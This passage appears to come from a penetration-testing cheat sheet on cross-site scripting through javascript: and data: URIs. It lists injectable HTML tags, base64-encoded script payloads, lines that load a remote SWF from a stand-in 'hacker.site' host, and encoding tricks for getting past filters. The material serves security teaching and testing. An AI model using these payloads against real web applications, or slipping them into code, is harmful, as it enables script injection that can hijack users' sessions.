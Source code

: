 ```javascript
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

#### Places where you can inject these protocols

**In general** the `javascript:` protocol can be **used in any tag that accepts the attribute `href`** and in **most** of the tags that accepts the **attribute `src`** \(but not `<img`\)

```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf 
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf 
<iframe srcdoc="<svg onload=alert(4);>">
```

#### Other obfuscation tricks

_**In this case the HTML encoding and the Unicode encoding trick from the previous section is also valid as you are inside an attribute.**_

```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Moreover, there is another **nice trick** for these cases**: Even if your input inside `javascript:...` is being URL encoded, it will be URL decoded before it's executed.** So, if you need to **escape** from the **string** using a **single quote** and you see that **it's being URL encoded**, remember that **it doesn't matter,** it will be **interpreted** as a **single quote** during the **execution** time.

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
